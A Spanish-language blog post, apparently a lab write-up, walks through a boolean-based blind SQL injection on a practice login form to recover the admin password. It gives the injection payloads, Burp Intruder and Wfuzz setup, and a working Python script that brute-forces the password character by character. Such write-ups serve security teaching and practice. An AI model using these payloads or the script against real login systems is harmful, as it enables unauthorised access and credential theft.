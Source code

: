 ```yaml
---
title: Boolean-BasedBlindSQLInjection
published: true
---
```


---
[SQLi-Lab](https://github.com/OxNinja/SQLi-lab)

## Boolean-based Blind SQL Injection

> En este laboratorio se presentaban varias inyeciones SQL pero en este post voy a realizar el ultimo ejecicio que es una Blind SQLi, donde nos pide obtener la contraseña del usuario administrador.

El nivel pide encontrar la contraseña del administrador, y existen 2 campos para ingresar datos, ‘Username’ y ‘Password’. Si en el campo ‘Username’ empiezo probando las típicas inyecciones como ‘ or 1=1-- - la página responde con un mensaje de “Welcome Admin!”, pero más que eso no muestra, no vemos reflejado ningún input, esto ya podría hacerme pensar que la inyección es a ciegas. Así que ahora hay que guiarse por los códigos de estado o el mensaje que aparece.

![](https://eidd3.github.io/assets/img/Boolean-basedBlindSQLInjection/Untitled.png)

En este caso, lo que nos permite guiarnos es el mensaje que aparece cuando ingresamos la query en el campo ‘Username’.

![](https://eidd3.github.io/assets/img/Boolean-basedBlindSQLInjection/Untitled1.png)

![](https://eidd3.github.io/assets/img/Boolean-basedBlindSQLInjection/Untitled2.png)

Antes de tratar de saber la contraseña, hay que saber el nombre de la tabla donde se supone está la columna password, pero si no adivinamos cuál es, podría aplicarse fuerza bruta con la siguiente consulta `username=' or (select ‘a’  from test)=’a’-- -` iterando en el campo ‘test’ que seria el nombre de la tabla. Se puede usar el intruder de BurpSuite u otra herramienta, yo voy a usar Wfuzz.

![](https://eidd3.github.io/assets/img/Boolean-basedBlindSQLInjection/Untitled3.png)

Obtenemos un resultado, la tabla ‘dual’, sabiendo ya que el usuario es ‘admin’ y la tabla es ‘dual’ podria probar tratar de aplicar una consulta para adivinar el primer carácter de la contraseña y dependiendo la respuesta, si en algun momento muestra “Welcome Admin!” significa que podemos sacar la contraseña.

La consulta seria `username=' or (select substring(password,1,1) from dual)='a'-- -`, ahora el metodo seria el mismo, iterar en el carácter ‘a’ hasta que si en algun momento muestra el mensaje ‘Welcome Admin!’ se podría sacar la contraseña.

Para esto voy a usar el Intruder de BurpSuite.

Agregamos el payload en el lugar que queremos iterar.

![](https://eidd3.github.io/assets/img/Boolean-basedBlindSQLInjection/Untitled4.png)

Como lista de payloads usamos a-z, A-Z y 0-9 

![](https://eidd3.github.io/assets/img/Boolean-basedBlindSQLInjection/Untitled5.png)

Y en la opcion Grep Extract agregamos el mensaje de error cuando la consulta no es correcta, esto es para que el ataque agregue una nueva columna y si en algún caso la respuesta es valida, ya sabemos con qué caracter empieza la contraseña y que la consulta funciona.

![](https://eidd3.github.io/assets/img/Boolean-basedBlindSQLInjection/Untitled6.png)

Al finalizar el ataque sabemos que la consulta funciona y que la contraseña empieza con el caracter f.

Ahora se podria crear un script en python para extraer la contraseña.

```python

from pwn import *                           # Importando modulos necesarios.
import sys, requests, string, time, signal 

url = "http://127.16.0.2/yAy_l3veL5.php"    # Definiendo variables globales.
caracteres = string.ascii_letters + string.digits 

def BlindSql():                             # Funcion que realiza el ataque de fuerza bruta.

    p1 = log.progress("Fuerza Bruta")
    p1.status("Iniciando ataque")
    time.sleep(2)

    extracted_info = ""
    
    p2 = log.progress("Contraseña")

    for position in range (0, 35):
        for caracter in caracteres: 
            
            post_data = {
            'username': "' or (select substring(password,%d,1) from dual)='%s'-- -" % (position, caracter),
            'password': 'a', 
            'submit': 'Connect'
            } 

            r = requests.post(url, post_data)
    
            if "Wrong username/password." not in r.text:
                extracted_info += caracter
                p2.status(extracted_info)
                break

if __name__ == '__main__':

    BlindSql()                              # Llamando a la funcion.
```

![](https://eidd3.github.io/assets/img/Boolean-basedBlindSQLInjection/Untitled7.png)

